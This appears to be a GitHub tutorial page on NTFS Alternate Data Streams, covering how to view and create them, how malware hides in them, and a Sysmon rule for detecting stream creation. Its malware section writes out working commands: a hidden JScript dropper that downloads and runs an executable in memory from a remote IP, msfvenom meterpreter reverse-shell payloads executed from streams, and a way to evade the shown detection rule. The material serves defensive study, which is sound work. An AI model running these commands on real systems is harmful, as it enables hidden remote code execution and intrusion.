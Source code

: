 ## Alternate Data Stream (ADS)

it's introduced with Windows NT 3.1, it's file attribute in NTFS which contains meta data about files

Any file has Data stream which contains the actual data of the file, any other Data stream is called **Alternate** so it's Alternate Data stream, the ADS size is not added to the file size and it's hidden, could only be viewed using some commands

```
dir /R  or dir /R [filename]
```

```powershell
Get-Item -Path [filepath] -Stream *
```
>Alternate streams are not listed in Windows Explorer, and their size is not included in the file’s size.
>When the file is copied or moved to another file system without ADS support the user is warned that alternate data streams cannot be preserved.
>
>-- Andrea fortuna

for any file there is fully qualified file name

`<filename>:<streamname>:<streamtype>`



one of the default ADS is Zone.Identifier which tells the URL which is used to download the file, it's supported since Win XP sp2
to get the URL of file use this command

```powershell
Get-Content -Path [filepath] -Stream Zone.Identifier
```

```powershell
notepad.exe file.txt:Zone.Identifier
```

![Zone Identifier](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/ADS/Misc/ZoneIdentifier.jpg)

- Zone.Identifer is not set when copying file from USB driver or downloading it from torrent -- **I tested it**

- some old browsers just place zone id in the Zone.Identifier ADS
- Any Application can set ADS, many Applications do
- Sysinternal has tool called streams that check for ADS



**to create ADS**

```powershell
set-content -Path {path to the file} - Stream {name of the stream} -Value {Value}
```
to remove ADS
```powershell
Remove-Item –Path {path to the file} –Stream {name of the stream}
```



## ADS in Malwares

ADS is used a lot in malwares because it's not listed in windows explorer 

**Example 1**

```powershell
set-content -path ADS.txt -Stream tDS.js -Value "a = new ActiveXObject(`'Wscript.Shell`');cmd = `"powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://18.185.124.52/ransinvoke.exe')).EntryPoint.Invoke(`$Null,`$Null))"";a.Run(cmd,0);"
```

the above example will create ADS called tDS .js ".js is very important so we can run it"
then for run this script

```powershell
wscript.exe ADS.txt:tDS.js
```

the script will download *ransinvoke.exe* from the remote server then will invoke it directly in the memory
ransinvoke.exe is a .NET application, so it could run directly in memory using PowerShell.
for non .net there is more complex code to run it directly in memory [for Shell code](https://github.com/rapid7/rex-powershell/blob/master/data/templates/to_mem_pshreflection.ps1.template)



**Example 2**

```powershell
findstr.exe /V /L NotHere C:\Users\Noname\Desktop\Attack.js > C:\Users\Noname\Desktop\ADS.txt:Attack.js
```

to execute

```powershell
wscript.exe ADS.txt:Attack.js
```

*Note: Run findstr from cmd not PowerShell and set **full path** not relative path*



**Example 3**

Create dll from MSF venom

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=4000 -f dll > /var/www/html/evil.dll
```
Create the ADS
```
type C:\Users\Noname\Desktop\Evil.dll > C:\Users\Noname\Desktop\ADS.txt:evil.dll
```

*run type from cmd not PowerShell and give it full path for the dll not relative path*

Execute the ADS

```powershell
rundll32 c:\Users\Noname\Desktop\ADS.txt:shell.dll,DllMain
```



**Example 4**

Create exe from MSF venom

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=4000 -f exe > /var/www/html/shell.exe
```

Create ADS

```powershell
makecab c:\Users\Noname\Desktop\shell.exe c:\Users\Noname\Desktop\shell.cab
extrac32 c:\Users\Noname\Desktop\shell.cab c:\Users\Noname\Desktop\ADS.txt:shell.exe
```

Execute the ADS

```powershell
wmic process call create "C:\Users\Noname\Desktop\ADS.txt:shell.exe"
```

of course it's not only about Metasploit, you can do this with any executable


*you can check Link 7 for more ADS create/execute commands*

 

### ADS Monitoring

Using sysmon we can monitor Adding files to streams using FileCreateStreamHash

```xml
<FileCreateStreamHash onmatch="include">
			<TargetFilename condition="contains">Downloads</TargetFilename> 
			<TargetFilename condition="contains">Temp\7z</TargetFilename>  
			<TargetFilename condition="contains">Startup</TargetFilename> 
			<TargetFilename condition="end with">.bat</TargetFilename> 
			<TargetFilename condition="end with">.cmd</TargetFilename> 
			<TargetFilename condition="end with">.hta</TargetFilename> 
			<TargetFilename condition="end with">.lnk</TargetFilename> 
			<TargetFilename condition="end with">.ps1</TargetFilename> 
			<TargetFilename condition="end with">.ps2</TargetFilename> 
			<TargetFilename condition="end with">.reg</TargetFilename> 
			<TargetFilename condition="end with">.jse</TargetFilename>
			<TargetFilename condition="end with">.vb</TargetFilename>
			<TargetFilename condition="end with">.vbe</TargetFilename> 
			<TargetFilename condition="end with">.vbs</TargetFilename> 
			<TargetFilename condition="end with">.exe</TargetFilename>
    		<TargetFilename condition="end with">.dll</TargetFilename>
    		<TargetFilename condition="end with">.js</TargetFilename>
		</FileCreateStreamHash>
```

*I can create ADS for executable file but without set the extension to exe and use wmic to create the process, like that I will bypass the above rule*

```powershell
makecab "c:\Users\Noname\Desktop\svchost.exe" "c:\Users\Noname\Desktop\svchost.cab"
extrac32 "c:\Users\Noname\Desktop\svchost.cab" "c:\Users\Noname\Desktop\ADS.txt:svchost"
wmic process call create "C:\Users\Noname\Desktop\ADS.txt:svchost"
```

![wmicProcessCreate](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/ADS/Misc/wmicProcessCreate.JPG)

to overcome this problem we can monitor creation for all streams and exclude Zone.Identifier and other legitimate ADS , but of course some one could name his malicious stream "Zone.Identifier"

### Reference

[Tricks to run executables in ADS] https://www.varonis.com/blog/the-malware-hiding-in-your-windows-system32-folder-more-alternate-data-streams-and-rundll32/ 

[Tricks to run executables in ADS] https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/ 

[Tricks to run executables in ADS Part-2] https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/ 

[Check ADs Part]  https://www.andreafortuna.org/2017/10/11/some-thoughts-about-ntfs-filesystem/ 

[Explanation for ADS] https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/

[Zone Identifier] https://cyberforensicator.com/2018/06/26/where-did-it-come-from-forensic-analysis-of-zone-identifier/ 

[a lot of Command for creating and executing ADS] https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f 

[Run shell code through ADS] https://github.com/enigma0x3/Invoke-AltDSBackdoor/blob/master/Invoke-ADSBackdoor.ps1 

